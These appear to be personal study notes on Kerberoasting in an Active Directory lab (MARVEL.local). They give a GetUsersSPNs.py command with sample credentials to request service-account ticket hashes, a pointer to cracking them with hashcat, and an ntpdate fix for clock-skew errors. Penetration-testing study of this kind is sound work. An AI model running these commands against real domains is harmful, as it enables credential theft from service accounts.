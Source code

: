 # Kerberaosting

## Overview

- takes advantage of Service accounts

![Kerberoasting Overview](image.png)

## Usage

```bash
GetUsersSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.70.141 -request
```

![GetUsersSPNs.py Output](image-1.png)

- crack hash with [hashcat](C:\Users\felix\Documents\Notes\Hacking\ADDS\InitialAttackVectors\Hashes\Hashcat.md)

### Clock skew too great error

```bash
ntpdate <target ip>
```
